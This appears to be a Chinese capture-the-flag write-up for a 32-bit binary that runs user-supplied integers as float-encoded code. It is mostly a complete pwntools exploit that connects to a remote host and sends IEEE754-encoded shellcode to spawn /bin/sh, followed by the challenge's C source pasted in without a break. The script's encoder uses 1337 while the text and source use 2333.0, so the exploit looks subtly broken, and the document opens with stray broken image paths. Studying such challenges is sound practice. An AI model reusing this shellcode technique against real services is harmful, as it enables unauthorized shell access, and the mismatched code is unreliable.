








2026 // 05 / 31
loding (50分)
32 位程序，IDA 直接 F5：

发现有一个我们无法直接控制的变量 v6，也就是 mmap 分配内存的起始位置。
参考：
关键看 for 循环：

unk_80485F0 指向的内存值为 %d，所以从键盘读入整数，以十进制形式，然后转换为浮点数再除以 2333.0，再写入 v6 指向的内存。

开始调试，安装 gdb 插件：

一步一步来：


给 mmap 下断点：

找到地址了：

注意看这里，这个代码是需要输入的，假如输入几个字符串看一下，在栈上直接显示的是我们需要输入的字符了。
int 占 4 字节，我们需要 4 字节的 shellcode，4 字节的 nop 形式应该是 nop shellcode shellcode nop。
程序逻辑是：输入 int → (float)int / 2333.0 存入 → 当作代码执行。
所以我们的 shellcode 需要满足：输入值 / 2333.0 的 float 表示，在内存中恰好等于我们想要的字节，即 int * 1337 的计算方式：
import struct
import pwnlib
import time
from pwn import *
def get_int(s):
a = struct.unpack('<f', s)[0] * 1337
return struct.unpack('I', struct.pack('<I', a))[0]
target = remote('106.75.2.53', 10009)
print "Sending IEEE754 shellcode..."
time.sleep(1)
for i in range(3):
target.sendline(str(get_int('\x00\x00\x00\x00')))
target.sendline(str(get_int('\x99\x89\xc3\x47'))) # mov ebx, eax
target.sendline(str(get_int('\x41\x44\x44\x44'))) # nop/align
for c in '/bin/sh\x00':
target.sendline(str(get_int('\x99\xb0'+c+'\x47'))) # mov al, c
target.sendline(str(get_int('\x57\x89\x03\x43'))) # mov [ebx], eax; inc ebx
for i in range(8):
target.sendline(str(get_int('\x57\x4b\x41\x47'))) # dec ebx
target.sendline(str(get_int('\x99\x31\xc0\x47'))) # xor eax, eax
target.sendline(str(get_int('\x99\x31\xc9\x47'))) # xor ecx, ecx
target.sendline(str(get_int('\x99\x31\xd2\x47'))) # xor edx, edx
target.sendline(str(get_int('\x99\xb0\x0b\x47'))) # mov al, 0xb
target.sendline(str(get_int('\x99\xcd\x80\x47'))) # int 0x80
target.sendline('c')
target.interactive()#include <stdlib.h>
#include <sys/mman.h>
#include <stdio.h>
int main(int argc, char** argv) {
float* array = mmap(0, sizeof(float)*8192, 7, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0);
int i;
int temp;
float ftemp;
for (i = 0; i < 8192; i++) {
if (!scanf("%d", &temp)) break;
array[i] = ((float)temp)/2333.0;
}
write(1, "here we go\n", 11);
(*(void(*)())array)();
}